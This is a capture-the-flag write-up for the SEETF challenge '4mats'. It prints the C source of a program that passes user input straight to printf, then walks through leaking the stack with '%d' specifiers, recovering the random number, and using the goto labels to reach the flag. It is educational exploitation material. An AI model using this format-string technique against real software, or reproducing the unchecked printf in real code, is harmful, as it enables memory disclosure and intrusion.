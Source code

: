 
# 4mats

## Challenge Description
> Lets get to know each other 
>
> `nc fun.chall.seetf.sg 50001`
>
> For beginners: -   [https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

## Solution
We are given two files, the executable and it's source code -> `vuln`, `vuln.c`
From the challenge description, we understand that it's a string format vulnerability, now we have to spot where exactly is that vulnerability.

Looking through the source code:
```C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
		system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		read(0, format, 64);
                printf("Same! I love \n");
		printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
```

We see that the vulnerability is in the second line here: 
```C
printf("Same! I love \n");
printf(format); // vulnerable
printf("too!\n");
```

now what can we achieve with that?

We see that the flag is printed only when you guess the program's favorite number, so that means we need to use the string format vulnerability to leak out values from the stack, because the variable `fav_num` is stored on the stack.

But that is not enough, because each time we try to guess the favorite number, it generates a new favorite number :( .
However, the code is split to labels, and we see that we have a label that skips the generation of a random number, and directly asks what is the favorite number, that label is `mat4`.

To reach that label, we need to increase the variable `set` to `4` and then enter an invalid option that is not covered in the switch case, so we can reach the default section which jumps to different labels:
```c
default:
	printf("I print instructions 4 what\n");
	if (set == 1)
mat6:
	    goto mat1;
    else if (set == 2)
        goto mat2;
    else if (set == 3)
mat7:
        goto mat3;
    else if (set == 4)
        goto mat4;
    else if (set == 5)
        goto mat5;
    else if (set == 6)
        goto mat6;
    else if (set == 7)
        goto mat7;
    break;
```
To increase `set`, we need to try case 1, which increases `set` by 1 each time.

So first, we start the program, and enter option `1` four times:
```
Welcome to SEETF!
Please enter your name to register:
hello
Welcome: hello

---- first time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!

---- second time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!

---- third time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!

---- fourth time ----
Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
50
Not even close!
```

now `set = 4`, and we can use the format string vulnerability to leak out the favorite number from the stack.

We will use `%d` specifier because we are looking for a number, `printf` will look for a value on the stack and convert it to a decimal integer.
```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
%d %d %d %d %d %d %d %d %d
Same! I love
134520960 64 134514518 1 -6646956 -6646948 983906 -135281700 -6647104
too!
```

Success! we leaked values from the stack, now we know the favorite number must be below `1000000`, because of the modulo:

`int fav_num = rand() % 1000000;`.

I checked this multiple times, and the numbers `64` and `1` stay the same every run, so the favorite number must be `983906`.

Now that we've got the favorite number, we can enter an invalid option to enter the default case, and jump to label `mat4`, there we can enter the number we found:
```
Let's get to know each other!
1. Do you know me?
2. Do I know you?
8
I print instructions 4 what
Guess my favourite number!
983906
Yes! You know me so well!
SEE{_censored_}
```

